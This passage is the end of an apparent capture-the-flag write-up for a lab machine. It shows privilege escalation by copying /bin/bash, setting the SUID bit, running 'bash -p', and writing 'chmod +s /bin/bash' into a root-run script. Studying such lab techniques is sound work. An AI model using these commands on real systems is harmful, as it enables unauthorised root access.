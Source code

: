 
My way
When I found out I can’t write files to the target, I went back the www-data shell, I copied /bin/bash to /home/think/spip which was owned by www-data and gave it the suid bit. We also need to make it readable by everyone using chmod 777 .

```cd ..
pwd
/home/think/spip
cp /bin/bash .
chmod +s 
chmod 777 .
```
I went back to my ssh and runned /home/think/spip/bash -p which gave me a shell as www-data.

I found that the binary is running /opt/run_container.sh so I wrote the same bash command chmod +s /bin/bash to the file and ran the binary

![image](https://github.com/user-attachments/assets/53ae8c26-a233-4010-bebe-2637fbf6ff54)



Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).






